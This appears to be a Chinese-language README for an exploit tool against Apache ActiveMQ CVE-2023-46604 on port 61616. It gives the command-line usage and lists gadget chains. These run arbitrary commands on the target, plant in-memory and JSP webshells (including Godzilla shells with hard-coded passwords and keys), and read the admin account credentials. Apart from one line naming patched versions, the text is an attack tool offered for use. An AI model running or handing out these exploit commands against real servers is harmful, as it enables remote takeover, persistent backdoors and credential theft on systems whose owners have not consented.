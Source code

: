 ActiveMQ CVE-2023-46604 61616端口利用工具

安全版本>= 5.18.3/5.17.6/5.16.7

java -jar ActiveMQExp.jar rhost=rhost lhost=lhost gadget=gadget cmd=cmd

例如

java -jar ActiveMQExp.jar rhost=127.0.0.1 lhost=127.0.0.1 gadget=cb19 cmd=whoami

默认 rport=61616 ldapport=1389 httpport=9998

目前支持的gadget如下

gadget=wincmd cmd=whoami //无回显

gadget=linuxcmd cmd=whoami //无回显

gadget=spelcmd cmd=whoami //无回显

gadget=spelecho cmd=whoami //有回显 from Hutt0n0

gadget=spelclass cmd=memcmd //内存马 from Hutt0n0 http://rhost:8161/admin/memshell?cmd=whoami

gadget=spelclass cmd=memgodzilla //内存马 http://rhost:8161/admin/memgodzilla pass:Tas9er key:B7VO2sAamj

gadget=spelclass cmd=readfile //读8186账户密码并且请求一次8186/admin/

gadget=spelclass cmd=whoami //有回显

gadget=spelclass cmd=cmdjsp // http://rhost:8161/api/cmd.jsp

gadget=spelclass cmd=godzillajsp // http://rhost:8161/api/godzillajsp pass:Tas9er key:B7VO2sAamj

gadget=urldns cmd=xxx.dnslog.cn

gadget=cb18 cmd=whoami //有回显

gadget=cb18 cmd=cmdjsp

gadget=cb18 cmd=godzillajsp

gadget=cb18 cmd=readfile

gadget=cb18 cmd=memgodzilla

gadget=cb19 cmd=whoami //有回显

gadget=cb19 cmd=cmdjsp

gadget=cb19 cmd=godzillajsp

gadget=cb19 cmd=readfile

gadget=cb19 cmd=memgodzilla

​
